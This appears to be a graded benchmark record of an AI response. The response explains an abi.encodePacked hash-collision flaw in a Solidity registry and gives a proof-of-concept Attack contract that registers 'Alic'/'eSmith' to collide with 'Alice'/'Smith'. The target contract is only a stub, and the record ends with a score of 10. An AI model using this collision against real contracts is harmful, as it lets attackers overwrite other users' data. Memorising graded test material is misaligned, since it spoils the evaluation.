 #### Response：

The vulnerability in the mentioned Solidity smart contract code involves using keccak256 combined with abi.encodePacked to create a unique identifier based on a user's name, surname, and nonce. When abi.encodePacked is used with dynamic types such as strings, it performs tight packing, which in some cases can lead to hash collisions, especially when the variable content is carefully crafted. This could result in one user overwriting another user's data or causing unintended effects in the contract. 

Below is a Proof of Concept (PoC) example demonstrating this vulnerability. The PoC will attempt to register two different users whose names, surnames, and nonces are designed to produce the same keccak256 hash, thereby demonstrating the collision and potential overwriting or other unintended behaviors.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Attack {
    Registry registry;

    constructor(address _registryAddress) {
        registry = Registry(_registryAddress);
    }

    function attack() external {
        //User 1: Normal registration
        string memory name1 = "Alice";
        string memory surname1 = "Smith";
        uint256 nonce1 = 1;
        registry.register(name1, surname1, nonce1);

        //User 2: Users who design hash conflicts
        string memory name2 = "Alic"; // Shorter names
        string memory surname2 = "eSmith"; // Modified surname
        uint256 nonce2 = 1; // Same random number

        // Assuming these values generate the same hash
        registry.register(name2, surname2, nonce2);
    }
}

// The original Registry contract is as you provided
contract Registry {
    // ... [Other parts of the contract provided according to prompts
}

```

#### Result:

Score: 10
